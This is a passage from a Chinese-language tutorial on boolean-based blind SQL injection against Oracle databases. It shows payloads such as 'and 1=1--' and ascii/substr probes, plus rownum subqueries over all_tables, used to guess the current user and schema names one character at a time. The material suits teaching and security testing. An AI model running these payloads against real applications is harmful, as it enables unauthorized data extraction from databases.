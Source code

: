 ```sql
select * from xxx_table where xxx='xxx' and 1=1--'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_ib4HBlI8.png)

**and 1=2 恒假**

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_Voeziuwm.png)

利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据

#### 布尔盲注常用函数

- ascii()
- substr()
- decode(a,b,c,d) 当a=b 返回c，否则返回d
- instr(a,b) 如果b字符串存在a 中，返回b在a中存在的位置，否则返回0



#### 布尔盲注手法
**获取当前数据库的用户名**

```sql
select * from xxx_table where xxx='xxx' and ascii(substr((select user from dual),1,1))=83--+
```
`ASCII('S') = 83`

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_BSKlDcyW.png)

依次对字符串求解，当截取到最后一位（+1）时会substr()函数会返回空字符串，这里用is null 可以判断是否为空，当is null 是第7位成立，那么字符串长度为6位

`ASCII('M')=77`

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_TcIH7lvd.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_49_F9wv6XR5.png)



**获取所有的数据库**
前面在联合查询处说了，Oracle 使用Schema 来控制不同用户的数据，所以当前数据库为用户名`SYSTEM`(Oracle 对大小写敏感)
在查询所有的数据库时，不能像MySQL那样使用limit，所以在Oracle中需要使用子查询来写SQL语句，类似如下

```sql
select owner from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```
以第一个数据库为例子，首先确定库的长度
```sql
select length(owner) from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_49_t5rDPoZ8.png)

然后配合使用`ascii()`，`substr()`函数来对字符进行依次猜解
